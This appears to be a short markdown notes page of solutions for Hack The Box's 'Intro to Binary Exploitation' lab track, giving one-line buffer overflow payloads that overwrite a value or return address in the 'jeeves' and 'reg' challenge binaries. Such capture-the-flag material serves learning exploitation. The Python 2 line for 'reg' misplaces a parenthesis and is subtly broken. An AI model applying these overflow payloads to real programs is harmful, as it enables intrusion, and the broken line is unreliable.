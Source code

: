 # Intro to Binary Exploitation
https://app.hackthebox.eu/tracks/Intro-to-Binary-Exploitation

## JEEVES
```bash
# python3
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")' | ./jeeves
```

```bash
# Python2
python2 -c 'print("A"*60 + "\xb3\xba\x37\x13")' | ./jeeves
```

## Reg
```bash
# Python 2
python2 -c 'print("A"*56) + "\x06\x12\x40"' | ./reg
```